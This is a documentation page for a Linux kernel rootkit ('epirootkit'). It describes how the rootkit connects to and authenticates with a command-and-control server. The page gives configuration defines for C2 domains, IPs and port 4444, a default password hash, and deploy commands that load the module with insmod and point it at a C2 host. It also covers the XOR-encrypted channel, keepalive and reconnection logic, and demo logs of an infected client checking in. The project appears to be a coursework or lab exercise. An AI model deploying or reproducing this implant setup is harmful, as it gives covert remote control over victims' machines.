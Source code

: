 ```yaml
---
title: "Connection & Authentication"
description: "How the rootkit connects to C2 server and authenticates"
icon: "link"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 503
---
```




## Connection Process

When the rootkit loads, it automatically:

1. **Starts connection thread** (`epirootkit_conn`)
2. **Resolves domain** (if address is domain name) - see [DNS Resolution](./features/dns-resolution.md)
3. **Attempts TCP connection** to configured C2 server
4. **Begins keepalive system** (60-second ping/pong)
5. **Enables XOR encryption** for all C2 communication
6. **Handles reconnection** with exponential backoff

### Configuration with Domain Support
```c
// rootkit/core/config.h - Domain examples
#define C2_SERVER_ADDRESS "jules_chef_de_majeur.epirootkit.com"  // Domain name
#define C2_SERVER_PORT 4444
#define KEEPALIVE_INTERVAL_MS 60000
#define RECONNECT_DELAY_MS 5000

// Or traditional IP
#define C2_SERVER_ADDRESS "192.168.64.1"  // IP address
#define C2_SERVER_PORT 4444
```

### Runtime Parameters
Override config.h settings during deployment:
```bash
# Deploy with domain
sudo ./deploy_rootkit.sh address=secure.company.net port=443

# Deploy with IP
sudo ./deploy_rootkit.sh address=10.0.0.100 port=8080
```

## Authentication System

### How It Works
1. **C2 sends command**: `auth Client-1 password`
2. **Rootkit receives**: Plain text password
3. **Rootkit hashes**: Using SHA-512 kernel crypto API
4. **Compares hash**: Against stored hash in config
5. **Returns result**: SUCCESS or ERROR

### Implementation
```c
// Default password is "password" (SHA-512 hash stored in config)
#define PASSWORD_HASH "b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86"
```

### Security Features
- **Rate limiting**: 5 attempts per 60 seconds
- **Session timeout**: 1 hour automatic expiry
- **Secure hashing**: SHA-512 using kernel crypto API

## Keepalive System

- **Ping interval**: Every 60 seconds
- **Timeout detection**: 30 seconds for response
- **Failure threshold**: 3 consecutive failed pings
- **Automatic reconnection**: Exponential backoff (5s → 10s → 20s → 40s → 60s max)

### Monitoring
```bash
# Check keepalive status from C2
c2-server$ keepalive Client-1
# Keepalive Status:
# Last ping sent: 2025-05-25 16:14:00
# Last pong received: 2025-05-25 16:14:00
# Failed ping count: 0
# Connection stable: YES
```

## Live Demo

### 1. Start C2 Server
```bash
cd attacking_program && pnpm start
```

### 2. Load Rootkit with Domain
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=c2.test-domain.com port=4444

# Or load directly
sudo insmod epirootkit.ko address=c2.test-domain.com port=4444
```

**C2 server shows:**
```
[2025-05-25 16:13:09] New client connected: Client-1
[2025-05-25 16:13:09] Client-1 status: UNAUTHENTICATED
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 password
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful
```

For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).
